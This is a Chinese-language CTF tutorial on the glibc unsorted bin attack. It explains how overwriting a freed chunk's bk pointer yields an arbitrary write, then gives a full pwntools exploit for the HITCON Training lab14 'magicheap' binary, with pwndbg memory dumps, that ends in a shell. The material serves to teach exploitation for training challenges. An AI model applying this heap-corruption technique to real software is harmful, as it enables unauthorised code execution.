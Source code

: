 # Unsorted Bin Attack

## 概述

- 被利用的前提是控制 Unsorted Bin Chunk 的 bk 指针
- 可以达到的效果是实现修改任意地址值为一个较大的数值

## Unsorted bin

### 基本来源

- 当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中
- 释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中
- 当进行 malloc_consolidate 时，可能会把合并后的 chunk（不和top chunk相邻） 放到 unsorted bin 中

### 使用

1. Unsorted Bin 在使用的过程中，采用的遍历顺序是 FIFO，即插入的时候插入到 unsorted bin 的头部，取出的时候从链表尾获取
2. 在程序 malloc 时，如果在 fastbin，small bin 中找不到对应大小的 chunk，就会尝试从 Unsorted Bin 中寻找 chunk。如果取出来的 chunk 大小刚好满足，就会直接返回给用户，否则就会把这些 chunk 分别插入到对应的 bin 中

## 原理

当将一个 unsorted bin 取出的时候，会将 bck->fd 的位置写入本 Unsorted Bin 的位置

```c++
    /* remove from unsorted list */
    if (__glibc_unlikely (bck->fd != victim))
      malloc_printerr ("malloc(): corrupted unsorted chunks 3");
    unsorted_chunks (av)->bk = bck;
    bck->fd = unsorted_chunks (av);
```

所以，如果我们控制了 bk 的值，我们就能将 unsorted_chunks (av) 写到任意地址

![Alt](img/unsorted_bin_attack_order.png)

**初始状态时** ：unsorted bin 的 fd 和 bk 均指向 unsorted bin 本身
**free(p)** ：由于释放的 chunk 大小不属于 fast bin 范围内，所以会首先放入到 unsorted bin 中
**修该`p[1]`** : 经过修改 unsorted bin 中的 p 的 bk 指针指向 target addr-16 处伪造的 chunk，即 Target Value 处于伪造 chunk 的 fd 处
**在申请 chunk** ： 假设所申请的 chunk 处于 small bin 所在的范围，但其对应的 bin 中暂时没有 chunk，所以会去 unsorted bin 中找，发现 unsorted bin 不空，于是把 unsorted bin 中的最后一个 chunk 拿出来

- victim = unsorted_chunks(av)->bk=p
- bck = victim->bk=p->bk = target addr-16
- unsorted_chunks(av)->bk = bck=target addr-16
- bck->fd = *(target addr -16+16) = unsorted_chunks(av);

在将 unsorted bin 的最后一个 chunk 拿出来的过程中，victim 的 fd 并没有发挥作用，所以即使我们修改了其为一个不合法的值也没有关系。然而，需要注意的是，unsorted bin 链表可能就此破坏，在插入 chunk 时，可能会出现问题。

unsorted bin attack 确实可以修改任意地址的值，但是所修改成的值却不受我们控制，唯一可以知道的是，这个值比较大

## 实例-HITCON Training lab14 magic heap

### 基本功能-magic heap

1. 创建堆：根据用户指定大小申请相应堆，并且读入指定长度的内容，但是并没有设置 NULL。
2. 编辑堆：根据指定的索引判断对应堆是不是非空，如果非空，就根据用户读入的大小，来修改堆的内容，存在任意长度堆溢出的漏洞。
3. 删除堆：根据指定的索引判断对应堆是不是非空，如果非空，就将对应堆释放并置为 NULL。

此外，当选择功能时输入 4869，并且 magic 大于 4869时就可以调用l33t拿到shell

### 利用-magic heap

1. 释放一个堆块到 unsorted bin 中。
2. 利用堆溢出漏洞修改 unsorted bin 中对应堆块的 bk 指针为 &magic-16。
3. 触发漏洞

### exploit-magic heap

```python
from pwn import *
context.arch='amd64'
context.log_level="DEBUG"

p = process('./magicheap')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\0'))
uu64    = lambda data               :u64(data.ljust(8,'\0'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

def create(size,content):
    ru("Your choice :")
    s(1)
    ru("Size of Heap : ")
    s(size)
    ru("Content of heap:")
    s(content)

def edit(index,size,content):
    ru("Your choice :")
    s(2)
    ru("Index :")
    s(index)
    ru("Size of Heap : ")
    s(size)
    ru("Content of heap : ")
    s(content)

def delete(index):
    ru("Your choice :")
    s(3)
    ru("Index :")
    s(index)

def l33t():
    ru("Your choice :")
    s(4869)
    itr()

def dbg():
    gdb.attach(p)
    pause()

create(0x20,'abcd') # id0
create(0x80,'abcd') # id1
create(0x80,'abcd') # id2, inorder to avoid id1 combine with top chunk when we free it

fake_chunk = 0x6020a0 - 0x10
delete(1)
# dbg()
# pwndbg> unsorted
# unsortedbin
# all: 0x11b6030 -> 0x7f679ac5cb78 (main_arena+88) <- 0x11b6030
# pwndbg> x/16g 0x11b6000
# 0x11b6000:    0x0000000000000000  0x0000000000000031
# 0x11b6010:    0x0000000064636261  0x0000000000000000
# 0x11b6020:    0x0000000000000000  0x0000000000000000
# 0x11b6030:    0x0000000000000000  0x0000000000000091
# 0x11b6040:    0x00007f679ac5cb78  0x00007f679ac5cb78
# 0x11b6050:    0x0000000000000000  0x0000000000000000
# 0x11b6060:    0x0000000000000000  0x0000000000000000
# 0x11b6070:    0x0000000000000000  0x0000000000000000
# pwndbg>

payload = p64(0)*5 + p64(0x91) + p64(0) + p64(fake_chunk)
edit(0,len(payload),payload)
# dbg()
# pwndbg> unsorted
# unsortedbin
# all [corrupted]
# FD: 0x714030 <- 0x0
# BK: 0x714030 -> 0x60208d <- 0x0
# pwndbg>

create(0x80,"dada")
# dbg()
# pwndbg> x/4g 0x1412030
# 0x1412030:    0x0000000000000000  0x0000000000000091
# 0x1412040:    0x0000000061646164  0x0000000000602090
# pwndbg> x/4g 0x0000000000602090
# 0x602090 <stdin@@GLIBC_2.2.5>:    0x00007f66fc3a18e0  0x0000000000000000
# 0x6020a0 <magic>: 0x00007f66fc3a1b78  0x0000000000000000
# pwndbg> x/x 0x00007f66fc3a1b78
# 0x7f66fc3a1b78 <main_arena+88>:   0x0000000001412150 <- maigc is bigger than 0x1305
# pwndbg>

l33t()
```
